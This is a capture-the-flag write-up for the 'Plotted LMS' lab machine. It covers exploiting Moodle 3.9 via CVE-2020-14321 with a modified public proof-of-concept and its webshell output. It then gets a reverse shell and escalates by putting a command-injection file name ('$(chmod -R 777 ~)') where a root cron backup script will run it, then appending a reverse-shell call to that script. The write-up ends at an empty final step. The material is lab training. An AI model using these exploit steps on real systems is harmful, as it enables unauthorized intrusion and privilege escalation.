 # Plotted LMS

A fairly hard room, largely due to the breadth of the enumeration and its numerous rabbit holes, plus some instability mixed with dickery in the foothold path.

1. A rust scan reveals four websites, 80, 873, 8820 and 9020. All show a default apache page
2. Using ffuf with directory wordlist medium on each, it reveals three sites: :873/rail, :8820/learn and :9020/moodle. The first two look to be custom built, but the last is a regular moodle instance.
3. Running moodlescan against the moodle url, reveals it is version 3.9 beta. This version is vulnerable to CVE-2020-14321, a authenticated remote code execution vulnerability.
4. The vuln requires the creds or cookie of a 'teacher'. Fortunately the site allows registeration, so I register a `test123:Test-123` user. Furthermore, there is a course 'teachers only' that allows self-enrollment, making the new user a teacher.

> The next bit was tricky. It took me four instances of the target VM and a lot of dickery to get the exploit working. Part of it was the author's countermeasures: any request without a referer header would respond with a rickroll message, breaking the script. But aside from that, the exploit itself seemed dependent on a very specific state - any messing about with moodle as I did trying to debug or enumerate would break the script flow, very annoying. In the end, the exact steps described following worked somewhat consistently.

5. On exploit-db, there is a reference impl for this vuln: https://www.exploit-db.com/exploits/50180. Instead of using that directly, I used the original repo referenced: https://github.com/HoangKien1020/CVE-2020-14321
6. Before running, this needs to be modified:
    - on line 9, this line: `headers={"Content-Type":"application/x-www-form-urlencoded"}` should be expanded to include a referer value, e.g. `headers={"Content-Type":"application/x-www-form-urlencoded","Referer": "http://10.10.94.67:9020/moodle/"}`
    - there are two uses of `session.get` in the script that dont specify headers, e.g. line 27~: `r=session.get(login_url,proxies=proxies)`. This should be changed to add the headers variable, e.g. `r=session.get(login_url,proxies=proxies,eaders=headers)`.
7. Running the script like so will hopefully result in output like the following:

    ```bash
    root@ip-10-10-242-204:~# python3 ./cve202014321.py -url http://10.10.94.67:9020/moodle -u test123 -p Test-123 -cmd=ls
                             ***CVE 2020 14321***
        How to use this PoC script
        Case 1. If you have vaid credentials:
        python3 cve202014321.py -u http://test.local:8080 -u teacher -p 1234 -cmd=dir
        Case 2. If you have valid cookie:
        python3 cve202014321.py -u http://test.local:8080 -cookie=37ov37abn9kv22gj7enred9bl7 -cmd=dir

    [+] Your target: http://10.10.94.67:9020/moodle
    [+] Logging in to teacher
    [+] Teacher logins successfully!
    [+] Privilege Escalation To Manager in the course Done!
    [+] Maybe RCE via install plugins!
    [+] Checking RCE ...
    [+] RCE link in here:
    http://10.10.94.67:9020/moodle/blocks/rce/lang/en/block_rce.php?cmd=ls
    block_rce.php

    ```
    
8. with the new webshell we can get a strong reverse shell. I used `https://github.com/NHAS/reverse_ssh` to get a full shell as www-data.
9. To pivot to the `plot_admin` user, there is a cronjob that runs every minute, executing a script called backup.py in the plot_admin user's home directory. The contents of this script are:

    ```python
    import os

    moodle_location = "/var/www/uploadedfiles/filedir/"
    backup_location = "/home/plot_admin/.moodle_backup/"

    os.system("/usr/bin/rm -rf " + backup_location + "*")

    for (root,dirs,files) in os.walk(moodle_location):
            for file in files:
                    os.system('/usr/bin/cp "' + root + '/' + file + '" ' + backup_location)
    ```
    
10. To exploit this, as we have write into `/var/www/uploadedfiles/filedir/`, we can create a file in there like `$(chmod -R 777 ~)`. This can be done with `touch \$\(chmod\ -R\ \~\)` in that folder. Within a minute, all files in plot_admin's home directory will be universally writable.
11. Next, adding `os.system("/path/to/revshell")` into backup.py (after removing the chmod file above, as it breaks the script) will get a reverse shell as plot_admin.
12. 

